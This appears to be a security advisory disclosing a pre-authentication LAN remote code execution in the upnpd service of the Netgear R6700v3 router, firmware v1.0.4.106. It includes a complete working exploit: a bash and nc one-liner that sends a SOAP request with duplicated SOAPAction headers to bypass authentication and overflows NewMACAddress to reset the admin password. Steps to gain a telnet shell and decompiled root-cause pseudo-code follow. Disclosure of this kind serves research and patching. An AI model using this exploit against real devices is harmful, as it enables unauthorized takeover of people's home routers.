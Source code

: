 # Pre-auth LAN RCE in Netgear R6700v3 v1.0.4.106

Disclosed is a pre-auth LAN RCE based on a stack overflow in the router from Netgear, model AC1750 R6700v3. This targets the firmware v1.0.4.106 and the vulnerable target binary is upnpd. This particular exploit against the vulnerability will not work against newer firmware versions.

## Details

The vulnerability is in the handling of requests to upnp, specifically a SOAPAction for setting a MAC address. This SOAPAction requires usually authentication, but as shown previously [1] the authentication can be bypassed by adding two SOAPActions `urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin` and `SOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC` in order to bypass the authentication logic.

A long string provided in the `NewMACAddress` tag causes the buffer overflow. Details for this can be found below in the root cause analysis.

The following request, performs similar to [1] a password reset using a single gadget by jumping to the procedure `acosNvramConfig_set`, which is located at `0x39b30` in v1.0.4.106. The input password to acosNvramConfig_set will be `password`.

```
BODY='<?xml version="1.0"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<SOAP-ENV:Body>
<NewMACAddress>'"$(printf 'a%.0s' {0..1016})"'\x30\x9b\x03</NewMACAddress>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>'
BODY_LEN=$(echo -n ${BODY} | wc -c )
echo -ne "POST soap/server_sa HTTP/1.0\r\nHost: 192.168.1.1:5000\r\nContent-Type: application/x-www-form-urlencoded\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceConfig:1#SOAPLogin\r\nSOAPAction: urn:NETGEAR-ROUTER:service:DeviceInfo:1#SetDeviceInfoByMAC\r\nContent-Length: ${BODY_LEN}\r\n\r\n${BODY}" | nc -i 1 192.168.1.1 5000
```

Next login to the web interface with the user admin and password `password`. Change the password, and run the well-known telnetenable tool [2] in order to open the telnet port and login to the router for shell access.

Summary:

1) Run the request with the exploit payload to reset the password
2) Login to the web interface with user admin and password `password`
3) Run telnetenable to gain shell access: ./telnetenable <router_ip> <router_lan_port_mac> admin <new_password>

## Root cause analysis
The root cause exists in the function at address 0x3b8f8 in v1.0.4.106. The relevant pseudo-code is:
```
   ..
   .
   v61 = stristr(v13, "NewMACAddress");
    if ( v61 )
    {
      v62 = (const char *)(stristr(v13, "NewMACAddress xsi:type=\"xsd:string\">") ? v61 + 36 : v61 + 14);
      strncpy(byte_DB00C, "", 0x13u);
      v63 = stristr(v13, "</NewMACAddress>");
      if ( v63 )
      {
        v64 = v63 - (_DWORD)v62;
        strncpy(byte_DB00C, "", 0x13u);
        strncpy(byte_DB00C, v62, v64);
        byte_DB00C[v64] = 0;
        sub_C310(3, "NewMACAddress = %s\n", byte_DB00C);
      }
    }
    .
    ..
```
which performs a copy to a memory location without any size limitations in `strncpy(byte_DB00C, v62, v64)`.

## References
[1] https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Tokyo2019/tokyo_drift.md

[2] https://github.com/insanid/NetgearTelnetEnable
